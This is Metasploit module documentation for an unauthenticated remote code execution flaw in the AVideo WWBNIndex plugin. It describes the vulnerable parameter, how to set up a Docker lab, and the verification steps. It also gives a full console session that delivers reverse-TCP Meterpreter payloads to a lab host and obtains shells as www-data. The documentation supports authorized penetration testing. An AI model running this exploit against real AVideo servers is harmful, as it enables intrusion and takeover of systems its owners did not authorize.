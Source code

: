 ## Vulnerable Application

This Metasploit module exploits an unauthenticated Remote Code Execution vulnerability in the AVideo platform,
specifically within the WWBNIndex plugin.
The vulnerability exists due to improper input validation in the `submitIndex.php` file, where the `systemRootPath` parameter
is directly passed to a `require()` PHP function without proper sanitization.
Attackers can exploit this by leveraging the PHP filter chaining technique
to execute arbitrary PHP code on the server.
The vulnerability is present in versions from 12.4 up to 14.2.

To set up a vulnerable environment for testing, follow the installation steps provided in the AVideo documentation for running with Docker:
<https://github.com/WWBN/AVideo/wiki/Running-AVideo-with-Docker>. Ensure AVideo version installed is between 12.4 and 14.2 and the WWBIndex plugin is installed -  this can be done by verifying `/var/www/html/AVideo/plugin/WWBNIndex` exists.

## Verification Steps

1. Start `msfconsole` in your Metasploit framework.
2. Use the module: `use exploit/multi/http/avideo_wwbnindex_unauth_rce`.
3. Set `RHOSTS` to the target's address where the AVideo platform is installed.
4. Set `TARGETURI` to the base path of the AVideo installation if it is not at the root directory (default is `/`).
5. Optionally, configure other options such as `SSL` and `RPORT` if the target environment requires it.
6. Execute the exploit using the `run` or `exploit` command.
7. If the target is vulnerable, the module will execute the specified payload, granting access according to the payload's capabilities.

## Options

No options

## Scenarios

### Successful Exploitation against AVideo Platform with WWBNIndex plugin version 12.9

**Setup**:

- Target: AVideo platform with WWBNIndex plugin version 12.9 installed in a Docker container.
- Attacker: Metasploit Framework.

**Example**:

```
msf6 > search avideo

Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  exploit/multi/http/avideo_wwbnindex_unauth_rce  2024-04-04       excellent  Yes    AVideo WWBNIndex Plugin Unauthenticated RCE
   1    \_ target: Automatic                          .                .          .      .
   2    \_ target: PHP In-Memory                      .                .          .      .
   3    \_ target: Unix In-Memory                     .                .          .      .
   4    \_ target: Windows In-Memory                  .                .          .      .


Interact with a module by name or index. For example info 4, use 4 or use exploit/multi/http/avideo_wwbnindex_unauth_rce
After interacting with a module you can manually set a TARGET with set TARGET 'Windows In-Memory'

msf6 > use 3
[*] Additionally setting TARGET => Unix In-Memory
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/avideo_wwbnindex_unauth_rce) > options

Module options (exploit/multi/http/avideo_wwbnindex_unauth_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      nhjkrZakk        no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces
   LHOST                                yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Unix In-Memory



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/avideo_wwbnindex_unauth_rce) > set rhosts 192.168.100.20
rhosts => 192.168.100.20
msf6 exploit(multi/http/avideo_wwbnindex_unauth_rce) > set lhost eth0
lhost => 192.168.100.10
msf6 exploit(multi/http/avideo_wwbnindex_unauth_rce) > set lport 1337
lport => 1337
msf6 exploit(multi/http/avideo_wwbnindex_unauth_rce) > set fetch_srvport 5000
fetch_srvport => 5000
msf6 exploit(multi/http/avideo_wwbnindex_unauth_rce) > exploit

[*] Started reverse TCP handler on 192.168.100.10:1337
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Detected vulnerable AVideo version: 12.9
[*] Sending stage (3045380 bytes) to 192.168.100.20
[*] Meterpreter session 1 opened (192.168.100.10:1337 -> 192.168.100.20:52936) at 2024-04-04 23:08:05 +0200

meterpreter > sysinfo
Computer     : 192.168.100.20
OS           : Ubuntu 20.04 (Linux 5.4.0-169-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > exit
[*] Shutting down session: 1

[*] 192.168.100.20 - Meterpreter session 1 closed.  Reason: Died
msf6 exploit(multi/http/avideo_wwbnindex_unauth_rce) > use 2
[*] Additionally setting TARGET => PHP In-Memory
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(multi/http/avideo_wwbnindex_unauth_rce) > exploit

[*] Started reverse TCP handler on 192.168.100.10:1337
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Detected vulnerable AVideo version: 12.9
[*] Sending stage (39927 bytes) to 192.168.100.20
[*] Meterpreter session 2 opened (192.168.100.10:1337 -> 192.168.100.20:36258) at 2024-04-04 23:08:44 +0200

meterpreter > getuid
Server username: www-data
```
